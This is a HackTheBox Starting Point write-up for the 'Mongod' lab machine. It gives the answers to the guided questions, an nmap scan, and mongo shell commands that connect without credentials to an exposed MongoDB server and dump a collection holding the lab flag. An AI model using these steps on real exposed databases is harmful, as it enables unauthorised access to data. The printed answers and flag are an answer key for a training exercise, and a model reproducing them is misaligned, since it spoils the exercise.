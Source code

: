 ```yaml
---
title: 🔵 HTB / Starting Point / Mongod
date: 2023-08-01
categories: [HackTheBox, Machines]
tags: [mongodb]
---
```


# Mongod

_How many TCP ports are open on the machine?_

`2`

_Which service is running on port 27017 of the remote host?_

```bash
$ nmap -sV -p- <ip>
...
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
...

```

_What type of database is MongoDB?_

`NoSQL`

_What is the command name for the Mongo shell that is installed with the mongodb-clients package?_

`mongo`

_What is the command used for listing all the databases present on the MongoDB server?_

`show dbs`

_What is the command used for listing out the collections in a database?_

`show collections`

_What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?_

`db.flag.find().pretty()`

_Submit root flag_

```bash
# Download binaries
$ curl -O <https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz>

$ tar xvf mongodb-linux-x86_64-3.4.7.tgz

$ cd mongodb-linux-x86_64-3.4.7.tgz

$ ./bin/mongo mongodb://<ip>:27017
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> use sensitive_information
switched to db sensitive_information
> show collections
flag
> db.flag.find().pretty()
{
	"_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
	"flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}
```
